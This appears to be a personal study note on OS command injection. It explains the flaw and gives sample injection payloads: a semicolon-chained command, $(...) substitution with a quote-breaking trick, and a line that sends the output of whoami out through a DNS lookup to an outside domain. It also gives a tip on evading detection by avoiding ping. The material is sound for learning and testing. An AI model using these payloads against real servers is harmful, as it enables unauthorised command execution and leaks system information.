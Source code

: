 OS command injection is also known as shell injection. It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data. Often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, and exploit trust relationships to pivot the attack to other systems within the organization.

After you identify an OS command injection vulnerability, it's useful to execute some initial commands to obtain information about the system.

In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation.

> [!example]
> Imagine a textbox in a website connected to the shell. Lets say it executes this command:
> ````bash
> grep -i $input dictionary.txt
> ````
> 
> We can modify our input so that our own command is injected instead:
> ````bash
> grep -i $input; ls # dictionary.txt
> 			  ^    ^
> 			start end
> ````

> [!important] Command Injection appearance
> This vulnerability usually only appears if you have a need for running commands on the OS

---
## Substitution command

> [!important] Substitution command
> Earlier example with `;` usually can get stuck when input is validated
> Use Substitution command trick in Linux:
> 
> ```bash
> echo MY NAME IS "FIRSTNAME $(echo TEST) LASTNAME"
> > MY NAME IS FIRSTNAME TEST LASTNAME 
> ```

> [!attention] Pay attention to quotation `""`
> Single Quotation does not work
> ```bash
> echo MY NAME IS 'FIRSTNAME $(echo TEST) LASTNAME'
> > MY NAME IS FIRSTNAME $(echo TEST) LASTNAME
> ```
> **This WORKS!** and it is called Polymorphic Payloads
> ```bash
> echo MY NAME IS 'FIRSTNAME '$(echo TEST)' LASTNAME '
> ```

After finding out this vulnerability, you have to test to confirm.
DO NOT test with ping as it will be caught. Use a command that both Linux and Windows have.
Such as [[Linux/Commands/Networking/nslookup|nslookup]]

Below command would find the result of `whoami` command and it would make a request to that subdomain of google.com. 

```bash
echo MY NAME IS 'FIRSTNAME '$(nslookup $(whoami).google.com)' LASTNAME'
```

Therefore you would find the current user

---
## Related links

Check out this [video](https://www.youtube.com/watch?v=Uk4imneVI30) by mdisec to learn more about OS Command Injection